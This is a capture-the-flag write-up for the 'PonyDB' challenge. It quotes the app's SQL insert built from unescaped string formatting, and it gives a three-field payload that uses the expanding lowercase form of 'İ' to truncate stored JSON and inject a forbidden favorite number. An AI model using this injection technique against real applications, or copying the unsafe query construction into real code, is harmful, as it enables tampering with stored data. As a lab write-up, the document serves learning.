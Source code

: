 # PonyDB

## TL; DR
- The Goal:
  The Goal was to get "1337" as the favorite number

- The Problem:
  Only numbers between 0-100 were allowed so you had to inject it in some other way and simply using "number" and "1337" as favorite key/value wasn't an option, because the orginal number pair would always be at the end of the Json-string

- The Solution:
  You could overflow the favorite key, value and word with the char "İ" which doubles in size as beeing formated in a string (in certain circumstances) which caused the stored Json-string to exceed the maximal lenght of 256 and thus get truncated. This meant the deserialization wouldn't error out because of trailing data.


## Structure
You can skip this part if you are already familiar with the challenge

The some important parts of the code

### 1.) The sql_mode

	'sql_mode': 'NO_BACKSLASH_ESCAPES'
 
 So that means Quotes can't be escaped by an backslash
 
 
 ### 2.) The table creation
 
    cursor.execute('CREATE TABLE `ponies` (`name` varchar(64), `bio` varchar(256), `image` varchar(256), `favorites` varchar(256), `session` varchar(64))')
 
 ### 3.) The insert query

    cur.execute(f"INSERT INTO `ponies` VALUES ('{name}', '{bio}', '{image}', " + \
		            f"'{{\"{favorite_key.lower()}\":\"{favorite_value}\"," + \
		            f"\"word\":\"{word.lower()}\",\"number\":{number}}}', " + \
		            f"'{session['id']}')")
 
### 4.) Input validation

(If error has a value not null the insert query doesn't get executed)

Same for all other fields...

    name = request.form['name']
	  if "'" in name: error = 'Name may not contain single quote'
	  if len(name) > 64: error = 'Name too long'

Except for the favorite number:

	number = int(request.form['number'])
	if number >= 100: error = "Ponies can't count that high"
	if number < 0: error = "Ponies can't count that low"

(this validates that the number is between 0 and 100)


### 5.) Flag reveal

	{% if favorite == 'number' and pony['favorites'][favorite] == 1337 %}
	Favorite flag: {{ flag }}
	{% endif %} {% endfor %}

The Flag will be shown if the favorite number is 1337


## Exploitation

Let's recap:
- the favorites Column (JSON Data) is maxed at 256 chars
- the original number/value pair gets checked and will always be appended to the end of the Json array
- from ponydb we know that we have to overflow somehow the JSON data

After playing around I noticed that the chr(304) (Python syntax) sometimes gets converted in an invisible + "i" character

So the sub-string expands if beeing inserted into the main-string

## The Payload

this was pretty straight forward
important: this time three variables were needed to insert the exploit

	word='aaaİİİİİİİİİİİİİİİİİİİİİİİ"}'
	favorite_key='İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ'
	favorite_value='","number":1337, "İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ": "'


## Thank you for reading :)
